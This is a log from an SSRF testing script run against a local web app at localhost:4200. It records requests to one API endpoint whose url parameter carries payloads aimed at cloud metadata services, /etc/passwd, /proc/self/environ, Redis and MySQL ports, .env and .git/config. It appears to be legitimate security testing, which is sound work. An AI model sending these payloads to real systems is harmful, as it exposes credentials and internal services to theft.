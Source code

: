 # SSRF Test Results
**Scan started on Wed Apr 16 17:13:28 AEST 2025**
**Target: http://localhost:4200**
**Request Method: POST**
**Max Time: 7 seconds**
**API Wordlist: api_endpoints.txt**
**Payload Wordlist: payloads.txt**


========================================================
        😎 SSRF Mapping & Testing Script 😎            
     Made with tears and possibly love by Ibi           
========================================================

 🚀 #Starting SSRF testing for http://localhost:4200
## Testing endpoint: http://localhost:4200/api/activity_types
- Testing: `http://localhost:4200/api/activity_types?url=169.254.169.254%2Flatest%2Fmeta-data%2F`
- Testing: `http://localhost:4200/api/activity_types?url=metadata.google.internal%2FcomputeMetadata%2Fv1%2F`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A8080%2Fadmin`
- Testing: `http://localhost:4200/api/activity_types?url=file%3A%2F%2F%2Fetc%2Fpasswd`
- Testing: `http://localhost:4200/api/activity_types?url=file%3A%2F%2F%2Fproc%2Fself%2Fenviron`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A3000%2Fadmin`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3A3000%2Fconfig`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A3000%2Fapi%2Finternal`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A3000%2Frails%2Finfo`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A3000%2Flogs`
- Testing: `http://localhost:4200/api/activity_types?url=mysql%3A%2F%2F127.0.0.1%3A3306%2F`
- Testing: `http://localhost:4200/api/activity_types?url=mysql%3A%2F%2Flocalhost%3A3306%2F`
- Testing: `http://localhost:4200/api/activity_types?url=redis%3A%2F%2F127.0.0.1%3A6379%2F`
- Testing: `http://localhost:4200/api/activity_types?url=redis%3A%2F%2Flocalhost%3A6379%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3A9876%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3A54247%2F`
- Testing: `http://localhost:4200/api/activity_types?url=127.0.0.1%3A59465%2F`
- Testing: `http://localhost:4200/api/activity_types?url=file%3A%2F%2F%2Fvar%2Flog%2Fnginx%2Faccess.log`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2F.git%2Fconfig`
- Testing: `http://localhost:4200/api/activity_types?url=169.254.169.254%2Fmetadata%2Finstance`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fdocs%2F`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Finternal`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Flogs`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fconfig`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fauth_test`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Foverseer_images`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fcampuses`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fcsv`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fprojects`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fsettings`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fstudents`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fsubmission`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftasks`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fteaching_periods`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftii_actions`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftii_eula`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftii_hook`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Ftutorials`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Funit_roles`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Funits`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2Fapi%2Fusers`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2F.env`
- Testing: `http://localhost:4200/api/activity_types?url=localhost%3A4200%2F.git`